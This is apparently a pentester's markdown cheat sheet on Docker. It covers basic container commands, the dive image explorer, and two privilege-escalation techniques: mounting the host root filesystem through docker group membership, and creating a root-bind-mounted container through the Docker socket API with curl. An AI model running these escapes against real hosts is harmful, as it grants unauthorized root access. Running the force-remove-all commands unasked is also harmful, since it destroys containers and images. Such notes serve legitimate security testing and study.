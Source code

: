 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["docker", "privesc", "container", "escape", "dive"]
---
```


### Basic Commands

```console
# Show all running processes
sudo docker ps -a
```

```console
# Show all images
sudo docker images -a
```

```console
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in docker
sudo docker exec -it <CONTAINER_NAME> sh
```

```console
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker image

{{< tab set1 tab1 active >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker group

```console
# List images
docker images
```

```console
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_NAME> bash
```

```console
# Check
ls /mnt/root
```

---

### Abuse #2: Docker API

```console
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console
# Start container
curl -s -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```
